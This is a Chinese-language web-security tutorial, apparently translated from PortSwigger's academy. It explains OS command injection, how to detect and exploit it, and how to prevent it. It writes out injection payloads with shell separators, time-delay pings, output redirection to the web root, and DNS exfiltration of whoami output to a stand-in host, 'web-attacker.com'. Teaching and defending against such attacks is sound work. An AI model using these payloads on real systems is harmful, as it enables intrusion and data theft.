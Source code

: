 # 操作系统命令注入

## 什么是OS命令注入？

在本节中，我们将解释什么是操作系统命令注入，描述如何检测和利用漏洞，阐述一些针对不同操作系统的有用命令和技术，并总结如何防止操作系统命令注入。

![](../.gitbook/assets/image%20%2815%29.png)

OS命令注入（也称为外壳程序注入）是一个web安全漏洞，它使攻击者可以在运行应用程序的服务器上执行任意操作系统（OS）命令，并且通常会完全破坏该应用程序及其所有数据。 攻击者通常可以利用OS命令注入漏洞来破坏托管基础结构的其他部分，利用信任关系将攻击转移到组织内的其他系统。

{% embed url="https://www.youtube.com/watch?v=8PDDjCW5XWw" %}

## 执行任意命令

考虑一个购物应用程序，该应用程序使用户可以查看特定商店中某商品是否有库存。 该信息可通过如下网址访问：

```text
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

为了提供库存信息，应用程序必须查询各种旧系统。 由于历史原因，该功能是通过使用产品和存储ID作为参数调用shell命令来实现的：

```text
stockreport.pl 381 29
```

此命令输出指定项目的库存状态，并返回给用户。

由于该应用程序无法防御OS命令注入，因此攻击者可以提交以下输入以执行任意命令：

```text
& echo aiwefwlguh &
```

如果此输入是在productID参数中提交的，那么应用程序执行的命令是：

```text
stockreport.pl & echo aiwefwlguh & 29
```

echo命令只是使提供的字符串在输出中回显，并且是测试某些类型的OS命令注入的有用方法。 ＆字符是shell命令分隔符，因此执行的实际上是一个接一个的三个独立命令。 因此，返回给用户的输出为：

```text
Error - productID was not providedaiwefwlguh29: command not found
```

输出的三行表明：

* 原始的stockreport.pl命令在没有预期参数的情况下执行，因此返回了错误消息。
* 执行注入的echo命令，并且在输出中回显提供的字符串。
* 原始参数29作为命令执行，从而导致错误。

通常，将附加命令分隔符＆放置在注入命令之后是很有用的，因为这会将注入命令与注入点后面的内容分开。 这减少了随后发生的事情将阻止注入的命令执行的可能性。

**实验室**[OS命令注入，简单案例](http://portswigger.cn/academy/subpage/allTopics/all-5.html#)

## 有用的命令

当您确定了OS命令注入漏洞后，通常可以执行一些初始命令来获取有关您受到破坏的系统的信息。 以下是在Linux和Windows平台上有用的一些命令的摘要：

| 命令目的 | Linux | Windows |
| :--- | :--- | :--- |
| 当前用户名 | `whoami` | `whoami` |
| 操作系统 | `uname -a` | `ver` |
| 网络配置 | `ifconfig` | `ipconfig /all` |
| 网络连接 | `netstat -an` | `netstat -an` |
| 运行过程 | `ps -ef` | `任务列表` |

## 盲操作系统命令注入漏洞

OS命令注入的许多实例都是盲目的漏洞。 这意味着应用程序不会在其HTTP响应中返回命令的输出。 盲目漏洞仍然可以被利用，但是需要不同的技术。

考虑一个允许用户提交有关该站点的反馈的网站。 用户输入他们的电子邮件地址和反馈消息。 然后，服务器端应用程序会向站点管理员生成一封包含反馈的电子邮件。 为此，它使用提交的详细信息调出邮件程序。 例如：

```text
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

mail命令的输出（如果有）不会在应用程序的响应中返回，因此使用echo有效负载将无效。 在这种情况下，您可以使用多种其他技术来检测和利用漏洞。

### 使用时间延迟检测盲注OS命令注入

您可以使用注入的命令来触发时间延迟，从而允许您根据应用程序响应的时间来确认命令已执行。 ping命令是执行此操作的有效方法，因为它使您可以指定要发送的ICMP数据包的数量，从而指定该命令运行所花费的时间：

```text
& ping -c 10 127.0.0.1 &
```

此命令将导致应用程序ping其环回网络适配器10秒钟。

**实验室**[带有延迟的盲OS命令注入](http://portswigger.cn/academy/subpage/allTopics/all-5.html#detecting-blind-os-command-injection-using-time-delays)

### 通过重定向输出来利用盲OS命令注入

您可以将注入命令的输出重定向到web根目录下的文件中，然后可以使用浏览器进行检索。 例如，如果应用程序从文件系统位置/var/www/static提供静态资源，则可以提交以下输入：

```text
& whoami > /var/www/static/whoami.txt &
```

&gt;字符将whoami命令的输出发送到指定文件。 然后，您可以使用浏览器获取[https://vulnerable-website.com/whoami.txt来检索文件，并查看注入命令的输出。](https://vulnerable-website.com/whoami.txt来检索文件，并查看注入命令的输出。)

使用带外（OAST）技术利用盲OS命令注入

您可以使用注入的命令，通过OAST技术触发与您控制的系统的带外网络交互。 例如：

```text
& nslookup kgji2ohoyw.web-attacker.com &
```

此有效负载使用nslookup命令对指定域进行DNS查找。 攻击者可以监视是否发生了指定的查找，从而检测到命令已成功注入。

带外通道还提供了一种从注入的命令中提取输出的简便方法：

```text
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对包含whoami命令结果的攻击者域的DNS查找：

```text
wwwuser.kgji2ohoyw.web-attacker.com
```

**实验室**[带带外数据渗透的盲OS命令注入](http://portswigger.cn/academy/subpage/allTopics/all-5.html#)

## 注入OS命令的方式

可以使用各种shell元字符来执行OS命令注入攻击。

许多字符用作命令分隔符，使命令可以链接在一起。 以下命令分隔符在Windows和基于Unix的系统上均可使用：

* `&`
* `&&`
* `|`
* `||`

以下命令分隔符仅在基于Unix的系统上工作：

* `;`
* Newline \(`0x0a` or `\n`\)

在基于Unix的系统上，您还可以使用反引号或美元字符在原始命令内对注入的命令执行内联执行：

* \`\`\` 注入命令 \`\`\`
* `$(` 注入命令 `)`

请注意，不同的shell元字符具有细微不同的行为，这可能会影响它们是否在某些情况下起作用，以及它们是否允许带内检索命令输出或仅对盲目利用有用。

有时，您控制的输入会出现在原始命令的引号中。 在这种情况下，需要先使用引号终止上下文（使用“或”），然后再使用适当的shell元字符来插入新命令。

## 如何防止OS命令注入攻击

到目前为止，防止OS命令注入漏洞的最有效方法是永远不要从应用程序层代码中调用OS命令。 几乎在每种情况下，都有使用更安全的平台API来实现所需功能的替代方法。

如果认为无法避免使用用户提供的输入来调用OS命令，则必须执行强输入验证。 有效验证的一些示例包括：

* 根据允许值的白名单进行验证。
* 验证输入是否为数字。
* 验证输入仅包含字母数字字符，不包含其他语法或空格。

切勿尝试通过转义shell元字符来清理输入。 实际上，这太容易出错，容易被熟练的攻击者绕开。

